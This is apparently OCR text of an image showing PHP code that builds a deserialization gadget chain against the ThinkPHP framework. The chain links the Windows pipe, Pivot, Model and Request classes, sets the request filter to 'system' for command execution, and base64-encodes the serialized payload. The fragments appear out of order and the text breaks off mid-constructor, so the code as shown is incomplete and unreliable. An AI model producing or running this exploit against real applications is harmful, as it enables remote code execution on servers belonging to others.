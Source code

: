 ```
}
namespace think\process\pipes;
use think\model\Pivot;

class Windows{
    private $files = [];
    public function __construct(){
        $this-&gt;files = [new Pivot()];
    }
}

namespace think\model;
use think\Model;

class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?&gt;

```

> 



```
&lt;?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this-&gt;data = ['H3rmesk1t' =&gt; new Request()];
        $this-&gt;append = ['H3rmesk1t' =&gt; []];
    }
}
class Request{
    protected $filter;
    protected $hook = [];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       =&gt; '_method',
        // 表单ajax伪装变量
        'var_ajax'         =&gt; '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         =&gt; '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     =&gt; 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   =&gt; ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   =&gt; '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  =&gt; '',
        // HTTPS代理标识
        'https_agent_name' =&gt; '',
        // IP代理获取标识
        'http_agent_ip'    =&gt; 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  =&gt; 'html',
    ];
    function __construct(){
        $this-&gt;filter = "system";
```